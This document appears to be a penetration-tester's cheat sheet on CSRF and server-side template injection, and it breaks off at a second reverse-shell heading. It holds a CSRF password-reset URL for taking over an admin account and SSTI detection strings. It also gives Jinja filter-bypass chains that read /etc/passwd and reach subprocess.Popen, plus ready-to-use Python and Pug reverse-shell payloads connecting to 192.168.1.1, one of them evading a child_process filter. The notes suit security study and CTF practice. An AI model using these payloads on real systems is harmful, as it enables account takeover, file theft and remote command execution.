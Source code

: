 ## Cross-Site Request Forgery (XSRF):  

	If you can get a user to click a link
	See if you have a password reset form, etc. that can be submitted via url -- make the admin account click it and change to your desired password
		ex. http://10.10.10.97/change_pass.php?password=password&confirm_password=password&submit=submit ; Confirm: nc -nvlp 80; http://<yourIP>/complete

## Server-Side Template Injection (SSTI):  

	If you can inject content into a page's source code - may appear similar to XSS
	Detect:  {{7*7}}  ;  ${{<%[%'"}}%\.  ;  #{7*7}
	Methodology:  https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#methodology
		https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
		Example:  https://shubham-singh.medium.com/doctor-htb-walkthrough-70bcb9eedefd 
		Step 1: Follow diagram to determine template engine
	Wordlist of GET/POST parameters:  https://github.com/danielmiessler/SecLists/blob/25d4ac447efb9e50b640649f1a09023e280e5c9c/Discovery/Web-Content/burp-parameter-names.txt
	*Automated Tool:  https://github.com/epinna/tplmap
		Python fix:  https://fahmifj.github.io/blog/tplmap-install/
	{{config}}; {{.}}; 
	Golang: {{ .DebugCmd "id" }}
	Jinja (Python-powered):
		Common payload (python2):  {{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
            		Try variants for both Python versions!
		Bypassing '.__' filter with Jinja attr() filter for concatenation:
			{% set string = "ssti" %}
			{% set class = "__class__" %}
			{% set mro = "__mro__" %}
			{% set subclasses = "__subclasses__" %}
			Exploit Methodology:
				{{ string|attr(class) }} - same as {{ "ssti".__class__ }}
				{{ string|attr(class)|attr(mro) }}
			Next:
				{% set string = "ssti" %}
				{% set class = "__class__" %}
				{% set mro = "__mro__" %}
				{% set subclasses = "__subclasses__" %}
				{% set mro_r = string|attr(class)|attr(mro) %}
				{{ mro_r[1] }}
			Next:
				{% set string = "ssti" %}
				{% set class = "__class__" %}
				{% set mro = "__mro__" %}
				{% set subclasses = "__subclasses__" %}
				{% set mro_r = string|attr(class)|attr(mro) %}
				{% set subclasses_r = mro_r[1]|attr(subclasses)() %}
				{{ subclasses_r }}
			Selecting subprocess.Popen:  {{ subclasses_r[997] }}
				RCE (create file):  {{ subclasses_r[997](["/usr/bin/touch","/tmp/test"]) }}
				RCE (shell):  {{ subclasses_r[997](["/usr/bin/python2.7","-c",'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.1",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);']) }}  
	Pug (NodeJS):
		#{7*7}
		Reverse Shell #1 (w/ 'child_process' filter evasion):
			#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad(\\"child_p\\\\x72ocess\\").exec('bash -c \\"sh -i >& /dev/tcp/192.168.1.1/5555 0>&1\\"')}()}
		Reverse Shell #2: